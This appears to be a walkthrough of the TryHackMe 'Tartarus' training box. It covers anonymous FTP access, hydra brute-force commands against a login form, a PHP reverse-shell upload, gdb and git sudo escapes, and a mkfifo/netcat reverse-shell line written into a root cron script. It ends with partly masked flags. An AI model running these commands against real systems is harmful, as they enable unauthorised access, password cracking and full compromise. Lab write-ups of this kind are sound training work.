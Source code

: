 # TryHackMe Tartarus

**This is an beginner box based on simple enumeration of services and basic privilege escalation techniques. Based jake**

## Task-1 Tartarus

* *Enumeration* - Doing nmap scan gave us 21,22,80 port open. 

* *Port -21* : FTP allowed us anonymous login. So typing command '*ftp IP*' and then 'anonymous' as name and password gave us a successful login. After that we can see a file named 'test.txt' and a directory '...' in the FTP shell. Get the .txt file on your shell using command '*get test.txt*'. Now go to '...' directory. It again gave a same named directory. Again going into that gave us another file named 'yougotgoodeyes.txt'. Get this file on your shell.

* Now see the content of test file. It just gave us 'vsftpd test file'. Now see for yougotgoodeyes.txt and it gives us a directory. Now we shall go on browser.

* *Port -80* : Open the link in browser. It gaves a default Apache2 page. On trying 'robots.txt' on the site gave us another directory along with a username : 'd4rckh'.

* Going on the above directory gave us two files 'credentials.txt' and 'userid'. Get these files on your machine using wget. 

* Also from FTP we got a directory. Opening that gave us a login page. So we have a list of usernames, password and a login page. Simple idea is to use hydra for password cracking. 

* Type the command ' *hydra -L userid -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!* '.  This will give username. 

* Now to crack password we will use command ' *hydra -l <userFromAboveResult> -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!* '. This will give us our password.

* Now login into the site using these creds. After that it gives us a uploading file option. We can upload our php reverse shell there. After uploading that start you nc listener. After that go to /<directoryWhihcWeGotFromFTP>/images/uploads/phpRevShell.php and you will get your shell.

* After logging into the shell we can see that we are 'www-data'. Go to '/home'	to see the list of users. Now type 'sudo -l' and we see that a user 'thirtytwo' can run gdb command. Now go to https://gtfobins.github.io/ to search for gdb sudo and we find one. Now type this command ' *sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex q* '. Now we are 'thirtytwo'.

* Again type 'sudo -l' and we see that 'd4rckh' can run git. Again go to https://gtfobins.github.io/ to search for git sudo. Now type ' *sudo -u d4rckh /usr/bin/git -p help config* ' and then type '!bash' to gain a bash shell. Now go to '/home/d4rckh'. In there we see a 'cleanup.py' file and 'user.txt' file  which is your user flag.

* We can edit this file to gain root shell. Also if you see '/etc/crontab' we can see that cleanup.py is running as a cronjob. Now edit .py file and type ' *os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.19.203 4444 >/tmp/f')* ' in the 'try' block and simultaneously start nc listener in other window. Wait for some time and your root shell will be spawned.

*  Now type ' *cat /root/root.txt* ' to gain root flag.

## 1. User Flag
Answer : 0f7dbb2243e692e3ad222b**********

## 2. Root Flag
Answer : 7e055812184a5fa5109d5d**********
